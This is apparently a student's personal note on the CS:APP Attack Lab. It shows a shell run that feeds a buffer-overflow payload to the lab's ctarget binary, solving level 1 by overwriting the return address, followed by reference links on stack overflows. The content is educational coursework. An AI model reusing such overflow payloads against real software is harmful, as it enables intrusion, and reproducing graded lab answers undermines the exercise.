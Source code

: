 ```yaml
---
title: attacklab
date: 2024-10-12T13:01:56+0800
modify: 2024-12-06T00:12:57+0800
categories: graph
dir: Obsidian
share: true
tags:
  - graph
---
```


```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
- 一些可以参考的链接
	- [zhuanlan.zhihu.com/p/476396465](https://zhuanlan.zhihu.com/p/476396465)
	- [【CSAPP】AttackLab-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2389328)
	- [【深入理解计算机系统】CSAPP-实验三：AttackLab详解\_attacklab实验三-CSDN博客](https://blog.csdn.net/qq_42234461/article/details/108661775)
	- [Site Unreachable](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
	- [CSAPP-Lab-3 实验报告: attacklab | 一隅](https://tqnwhz.github.io/blog/2023/12/04/CSAPP-Lab-3)
	- [zhuanlan.zhihu.com/p/104340864](https://zhuanlan.zhihu.com/p/104340864)
- 栈溢出
	- [zhuanlan.zhihu.com/p/25816426](https://zhuanlan.zhihu.com/p/25816426)
	- [zhuanlan.zhihu.com/p/25892385](https://zhuanlan.zhihu.com/p/25892385)
